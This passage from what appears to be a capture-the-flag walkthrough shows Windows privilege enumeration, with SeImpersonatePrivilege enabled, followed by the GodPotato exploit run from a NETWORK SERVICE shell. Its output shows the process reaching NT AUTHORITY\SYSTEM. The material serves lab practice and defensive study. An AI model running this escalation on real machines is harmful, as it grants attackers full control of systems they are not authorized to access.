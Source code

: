 ```powershell

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

PS C:\ProgramData>
PS C:\ProgramData> systeminfo
systeminfo

Host Name:                 WORKER
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-00000-00001-AA615
Original Install Date:     2020-03-28, 13:59:53
System Boot Time:          2024-01-13, 16:30:20
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
...
...
```
{: .nolineno}

Now lets use this , first lets try simple ‘*whoami*’ command →

```powershell
PS C:\ProgramData> .\GodPotato-NET4.exe -cmd "cmd /c whoami"
.\GodPotato-NET4.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140711718551552
[*] DispatchTable: 0x140711720860880
[*] UseProtseqFunction: 0x140711720241040
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\5e6d9ed3-c0cf-4dfd-a0c0-8902c56ce18f\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00006802-1284-ffff-342f-8f9ecdfef721
[*] DCOM obj OXID: 0x9ee90f5d3c825f94
[*] DCOM obj OID: 0xad1f60a2b189ec42
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 944 Token:0x644  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 7652
```